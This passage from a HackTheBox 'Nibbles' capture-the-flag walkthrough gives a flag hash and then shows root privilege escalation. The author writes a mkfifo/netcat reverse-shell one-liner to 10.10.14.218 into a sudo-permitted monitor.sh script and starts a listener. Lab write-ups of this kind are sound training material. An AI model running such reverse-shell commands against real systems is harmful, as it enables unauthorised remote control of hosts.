 We got a shell.

![](./attachments/Pasted%20image%2020230123111302.png)

**Answer:** `79c03865431abf47b90ef24b9695e148`

---
## 
### Question:
![](./attachments/Pasted%20image%2020230123111430.png)

Using command `sudo -l` we can see that we can run `/home/nibbler/personal/stuff/monitor.sh` as root.

![](./attachments/Pasted%20image%2020230123112104.png)

We can create the file and insert a reverse shell using `echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.218 8880 >/tmp/f' > personal/stuff/monitor.sh`

Before executing the script, we set up a `netcat` listener to catch the shell.

```
┌──(kali㉿kali)-[~/HTB/Nibbles]
└─$ nc -lvnp 8880
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::8880
Ncat: Listening on 0.0.0.0:8880
```
